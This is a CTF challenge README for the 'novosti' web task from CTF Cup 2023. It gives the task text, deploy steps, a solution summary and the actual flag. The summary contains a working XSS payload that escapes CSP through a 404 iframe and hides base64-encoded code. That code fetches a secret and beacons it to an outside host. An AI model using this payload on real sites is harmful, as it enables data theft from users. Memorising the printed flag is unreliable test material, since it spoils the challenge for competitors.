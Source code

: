 # web | novosti

![novosti share page](./screenshots/novosti.png)

## Information

Даже в такие тяжёлые времена, как сейчас, людям нужна информация. Мы решили запустить свой новостной сайт, но только так, чтобы об этом не узнали сам-знаешь-кто. Надеемся, очевидцы будут присылать нам новости, чтобы было, что публиковать. Не самим же искать анонсы, в самом-то деле...

Even in hard times like these, people need information. We have decided to start our own news site, but only so that you-know-who doesn't find out about it. We hope that eyewitnesses will send us news so that we have something to publish. It's not like we have to look for announcements ourselves, really....

[https://novosti-3d5d54b8c9f9f81aabcf60563021845f.ctfcup-2023.ru](https://novosti-3d5d54b8c9f9f81aabcf60563021845f.ctfcup-2023.ru)

## Deploy

```sh
cd deploy
NOVOSTI_FLAG="ctfcup{flag}" docker compose -p web-novosti up --build -d
```

## Public

Provide zip file: [public/novosti.zip](public/novosti.zip).

## TLDR

XSS, use iframe leading to 404 in order to bypass CSP

```html
<script>
  const iframe = document.createElement("iframe");
  iframe.src = "/404";
  document.body.appendChild(iframe);
  setTimeout(() => {
    iframe.contentWindow.document.body.innerHTML = `<img src=x onerror="eval(atob('ZmV0Y2goImh0dHA6Ly9maWxlczo4MDgwL2ZsYWciKS50aGVuKHI9PnIudGV4dCgpKS50aGVuKHQ9Pm5hdmlnYXRvci5zZW5kQmVhY29uKCJodHRwOi8vcmVuYm91LnJ1Iix0KSk7'))" />`;
  }, 1000);
</script>
```

## Writeup (ru)

TODO

## Writeup (en)

TODO

## Domain

https://novosti-3d5d54b8c9f9f81aabcf60563021845f.ctfcup-2023.ru

## Cloudflare

Yes

## Flag

ctfcup{b4by-1fr4m3-x55-a4371ea843fc145f}

